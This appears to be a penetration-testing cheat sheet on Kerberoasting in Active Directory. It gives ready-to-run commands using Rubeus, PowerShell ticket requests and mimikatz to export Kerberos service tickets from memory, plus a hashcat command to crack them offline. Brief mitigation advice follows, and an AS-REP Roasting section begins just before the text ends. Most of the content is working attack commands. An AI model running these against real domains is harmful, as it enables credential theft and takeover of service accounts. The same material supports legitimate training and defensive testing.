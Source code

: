 ## [+] Kerberoasting ⇒ **`Rubeus`**

[Rubues Kerberoasting](https://github.com/GhostPack/Rubeus#kerberoast)

```powershell
PS> Rubeus.exe kerberoast /nowrap 
```

---

## [+] Kerberoasting ⇒ `powershell`

```powershell
Add-Type -AssemblyName System.IdentityModel  # this namespace is not loaded into powershell instance by default 
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'SPN'
klist # list the tickets 
mimikatz.exe # to download the ticket from memory
mimikatz> kerberos::list /export 
```

---

## [+] Cracking

- crack the hash with `john` or `hashcat`

```bash
hashcat -m 13100 -a 0 hash.txt PassList.txt
```

---

## [+] Kerberoasting Mitigation

- Strong Service Passwords - If the service account passwords are strong then kerberoasting will be ineffective
- Don't Make Service Accounts Domain Admins - Service accounts don't need to be domain admins, kerberoasting won't be as effective if you don't make
service accounts domain admins.

# ______________________________________________________________________

# [=] AS-REP Roasting

## [+] `GetNPUsers.py`

- Get Non Pre-auth Users
- Authentication Service Response Roasting
    